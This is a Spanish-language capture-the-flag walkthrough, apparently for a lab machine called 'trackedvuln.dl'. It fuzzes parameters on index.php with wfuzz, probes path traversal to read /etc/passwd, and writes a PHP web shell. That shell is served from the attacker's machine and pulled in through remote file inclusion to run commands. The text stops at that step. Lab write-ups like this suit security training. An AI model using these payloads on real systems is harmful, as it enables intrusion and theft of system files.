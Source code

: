 Ahora que tenemos esta volveremos a aplicar al archivo **index.php**:
```bash
http://trackedvuln.dl/index.php
```

Ahora para poder aplicar fuzzing de parametros sobre el archivo **index.php** tenemos que agregar la siguiente cabecera **http**
```bash
-H "Authorization: Basic aGFja2VhZGE6ZGVudWV2bw==" # hackeada:denuevo en base64
```

Verificamos si tiene parametros:
```bash
wfuzz -c -t 50 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -H "Authorization: Basic aGFja2VhZGE6ZGVudWV2bw==" -u "http://trackedvuln.dl/index.php?FUZZ=test" --hh=893
```

Ahora tenemos un parametro:
```bash
000002045:   200        39 L     104 W      1071 Ch     "love" 
```

Ahora veriricaremos si es vulnerable:
```bash
curl -s -X GET "http://trackedvuln.dl/index.php?love=../../../../etc/passwd" -H "Authorization: Basic aGFja2VhZGE6ZGVudWV2bw=="
```

Intentamos leer el archivo pero nos devuelve la siguiente respuesta desde la terminal:
```bash
<p><h1><strong>Los del SOC tenemos tus datos </strong></h1></p><p><h2>Cerca :-( pero lejos</h2></p><p><strong>Usa tmp cuando lo necesites recuerdalo te hara falta</strong></p></p
```

## Explotacion de Vulnerabilidades

### Vector de Ataque
Entonces si tenemos que apuntar a **tmp** tendremos que usar **php-filter-generator**
**Nota** Descargamos esta forma ya que no logramos ejecutar comandos de esta manera
Ahora veremos si apuntando a nuestra ip para que cargue un archivo malicioso que estara almacenado en nuestra maquina de atacante podemos ejecutar comandos:
Primero creamos el archivo malicioso: **cmd.php**
```php
<?php
  system($_GET["cmd"]);
?>
```

Montamos un servidor python para que este disponible nuestro archivo malicioso:
```bash
python3 -m http.server 80
```

### Ejecucion del Ataque
Ahora desde terminar vamos a comprobar si nos devuelve la salida del comando que intentemos ejecutar bajo el parametro **cmd**
```bash
http://trackedvuln.dl/index.php?love=http://172.17.0.1/cmd.php&cmd=id
```
